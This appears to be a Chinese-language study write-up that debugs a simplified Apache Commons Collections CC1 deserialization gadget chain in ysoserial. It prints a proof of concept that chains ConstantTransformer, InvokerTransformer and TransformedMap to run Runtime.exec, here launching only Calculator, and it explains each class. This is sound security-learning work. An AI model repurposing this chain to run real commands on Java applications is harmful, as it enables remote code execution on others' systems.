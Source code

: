 # **0x00** 前言

本文主要参考了

- [Phith0n师傅的Java安全漫谈系列](https://govuln.com/docs/java-things/)

第一节是Phith0n师傅简化的一个CC1链的debug分析。

# 0x01 CC1链简化版分析

上一篇文章中，debug跟踪分析了ysoserial URLDNS链。本节将对Phith0n在小密圈分享的CC1链进行一个分析和学习。这里，为了方便调用，我们在该路径`ysoserial-master/src/main/java/ysoserial/payloads/CC1.java`下建立CC1.java文件，内容如下：

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, transformerChain, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

这样，可以点击绿色箭头直接debug分析。如下图![](./images/2021_08_05_CC1链分析与学习_1.png)

按照上图下好断点后，我们开始debug分析。

## 方法分析

对CC1 gadget涉及到的类文件和方法进行一个简单的分析。

**Transformer接口**

Transformer.java是一个接口文件，它只有一个待实现的方法：

```java
public interface Transformer {
    public Object transform(Object input);
}
```

并且该类被很多类实现。



**ConstantTransformer类**

该类实现了Transformer接口。

1. 其构造函数将传入参数赋值给this.iConstant变量；

```java
public ConstantTransformer(Object constantToReturn) {
    this.iConstant = constantToReturn;
}
```

2. transform方法将返回this.iConstant变量。

```java
public Object transform(Object input) {
    return this.iConstant;
}
```

如果程序存在一个参数需要ConstantTransformer类的实例化变量，且之后又调用了其transform函数，我们就可以利用构造函数的参数constantToReturn传递任意指定Object对象（披着羊皮的狼）



**InvokerTransformer类**

该类实现了Transformer接口。

1. 其构造函数只进行简单的赋值操作;

```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```

该构造函数与transform方法息息相关，需要三个参数。

2. 该类实现的transform方法可执行任意方法，也是反序列化执行命令的关键。

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
      try {
            Class cls = input.getClass();
        		Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
             ...
             ...
```

transform将解析构造参数传入的三个参数，执行input对象的iMethodName方法。

**ChainedTransformer类**

该类实现了Transformer接口。

1. 将传入参数赋值给iTransformers。注意，其类型为Transformer[]，是一个接口类型数组。

   ```java
   public ChainedTransformer(Transformer[] transformers) {
     super();
     iTransformers = transformers;
   }
   ```

2. transform方法会逐个遍历执行接口类型数组变量iTransformers数据的transformer方法，并将前一个执行的transform方法返回的结果作为接续执行的transform方法的输入。借用Phith0n师傅的图![](./images/2021_08_05_CC1链分析与学习_2.png)源码如下:

   ```java
   public Object transform(Object object) {
     for (int i = 0; i < iTransformers.length; i++) {
       object = iTransformers[i].transform(object);
     }
     return object;
   }
   ```

**TransformedMap类**

TransformedMap用于对Java标准数据结构Map做一个修饰，被修饰过的Map在添加新的元素时，将可以执行一个回调。

- 构造函数TransformedMap是protected，需要使用decorate方法调用

  ```java
  public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      return new TransformedMap(map, keyTransformer, valueTransformer);
  }
  
  protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      super(map);
      this.keyTransformer = keyTransformer;
      this.valueTransformer = valueTransformer;
  }
  ```

- put方法，是修饰过后的map对象添加新元素的方法。将会调用decorate方法传入的参数处理key和value。

  ```java
  public Object put(Object key, Object value) {
      key = this.transformKey(key);
      value = this.transformValue(value);
      return this.getMap().put(key, value);
  }
  ```

## 过程分析

主函数代码：

```java
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("exec", new Class[]{String.class},
        new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "xxxx");
}
```

第1行 main函数

第2行 定义了一个接口类型数组`Transformer[]{}`，它有两个数据。

第3行 Transformer[]数组的第一个数据：ConstantTransformer类的实例化对象。后续过程中将调用其transform方法，return这里传入的`Runtime.getRuntime()`

第4-5行 Transformer[]数组的第二个数据：InvokerTransformer类的实例化对象，接收并保存三个参数（恶意命令）。后续过程中将调用其transform方法，并传入第一个数据的transform方法的返回结果`Runtime,getRuntime()`，执行恶意命令。

第7行 实例化对象ChainedTransformer，传入数组transformers。

第8行 实例化HashMap对象。

第9行 执行TransformedMap.decorate方法->构造方法。传入Map对象innerMap和进行数据修饰的对象transformerChain。

第10行 添加新元素。1-9行执行的代码都是为这一步做准备，是触发命令执行的关键代码。调用链如下：![](./images/2021_08_05_CC1链分析与学习_3.png)

ChainedTransformer类的transform方法遍历执行iTransformers(Transformer接口数组)内数据的transform方法。首先执行ConstantTransformer的transform方法：![](./images/2021_08_05_CC1链分析与学习_5.png)可以看到，传入数据值为`test`，也正如上文对ConstantTransformer类的分析，transform方法返回了`Runtime`对象。接续执行InvokerTransfomer类的transform方法。![](./images/2021_08_05_CC1链分析与学习_6.png)输入为ConstantTransformer的transform方法返回的**Runtime对象**，并利用反射在61行处执行命令。结果如下：![](./images/2021_08_05_CC1链分析与学习_7.png)

提一句，由于在 

```java
Map outerMap = TransformedMap.decorate(innerMap, transformerChain, transformerChain);
```

中对于key和value的修饰方法均设置为transformerChain，所以完整运行会执行两次命令。

# 